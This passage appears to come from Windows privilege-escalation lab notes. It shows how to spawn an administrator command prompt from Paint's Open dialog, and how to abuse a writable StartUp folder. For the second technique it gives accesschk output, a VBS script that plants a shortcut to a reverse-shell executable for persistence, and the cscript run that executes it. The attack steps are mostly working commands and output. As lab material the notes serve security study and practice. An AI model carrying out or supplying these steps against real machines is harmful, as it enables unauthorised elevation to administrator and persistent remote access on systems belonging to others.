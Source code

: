 
- In Paint, click "**File**" > "**Open**". In the open file dialog box, click in the navigation input and paste: `file://c:/windows/system32/cmd.exe`

- Then Press [Enter] to spawn a command prompt running with admin privileges.

![](https://i.imgur.com/6qUTliq.png)



## **Startup Apps**


- Using `accesschk.ex`e, Check if `BUILTIN\Users` group can write files to the `StartUp` directory:

```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"



AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users # <= Confirmed
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```


- Save the following into a file named `CreateShortcut.vbs` in the windows server.
- Make sure to replace `oLink.TargetPath` with the `.EXE` reverse shell binary path


```vbs
type C:\PrivEsc\CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```


- Then create a shortcut to this file using `cscript`.


```powershell
C:\PrivEsc>cscript C:\PrivEsc\CreateShortcut.vbs

cscript C:\PrivEsc\CreateShortcut.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```
